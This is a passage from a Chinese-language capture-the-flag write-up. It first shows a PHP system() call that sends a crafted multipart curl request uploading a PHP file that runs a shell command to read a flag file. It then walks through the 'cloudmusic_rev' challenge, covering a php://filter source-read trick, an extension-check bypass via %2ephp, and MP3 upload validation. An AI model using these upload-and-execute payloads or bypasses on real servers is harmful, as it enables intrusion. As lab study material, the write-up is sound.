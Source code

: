 ```php
		system("curl -i -s -k  -X 'POST'  -H 'Upgrade-Insecure-Requests: 1' -H 'Origin: null' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymZPeYQvY7ydrgDSx' -H 'User-Agent: Mo'  --data-binary $'------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file[0]\"\x0d\x0a\x0d\x0a0\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file[2]\"\x0d\x0a\x0d\x0aphp/.\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"hello\"\x0d\x0a\x0d\x0a/var/sandbox/c45f7f6a79cd05675f81154be24040c5/$j.php\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx\x0d\x0aContent-Disposition: form-data; name=\"file\"; filename=\"l3yxxxxxxxxx.php\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a@<?php echo 1234569;system(\"cat /etc/flag_is_He4e_89587236.txt\");?>\x0d\x0a------WebKitFormBoundarymZPeYQvY7ydrgDSx--\x0d\x0a'      'http://172.18.0.2/index.php?0=$_GET[0]'");

	} 
```
访问这个PHP即可得到flag


### cloudmusic_rev
国赛决赛第一版，G师傅牛批嗷
https://github.com/impakho/ciscn2019_final_web1
读源码发现提示
> urldecode path:php://filter/convert.base64-encode/resource=share.php
.php is not allowed.
那么.php转个urlencode，%2ephp

验证码就不展开谈，来详细谈下作为一个WEB狗搞二进制的收获。

事实上一开始看writeup，发现自己连mp3都传不上。。。接下来来分析一下为什么传不上。

我们先来看mp3的[文件结构](https://blog.csdn.net/u010650845/article/details/53520426)，这里本题相关的就是

> 位于文件开始处，长度为10字节，结构如下：
>
> char Header[3];    /*必须为“ID3”否则认为标签不存在*/
>
> TIT2=标题
>
> TPE1=作者
>
> TALB=专集

先看upload的重点逻辑

```php
$flags = fread($handle, 3);
            fclose($handle);
            if ($flags!=="ID3"){
                unlink($music_filename);
                ob_end_clean();
                die(json_encode(array('status'=>0,'info'=>'upload err, not a valid MP3 file.')));
            }
```

很明显，就是判断前三位是不是ID3

```php
 try{
		$parser = FFI::cdef("
            struct Frame{
            char * data;
            int size;
         };
		struct Frame * parse(char * password, char * classname, char * filename);
		", __DIR__ ."/../lib/parser.so");

		$result=$parser->parse($_GLOBALS['admin_password'],"title",$music_filename);
		if ($result->size>0x60) 
        $result->size=0x60;
```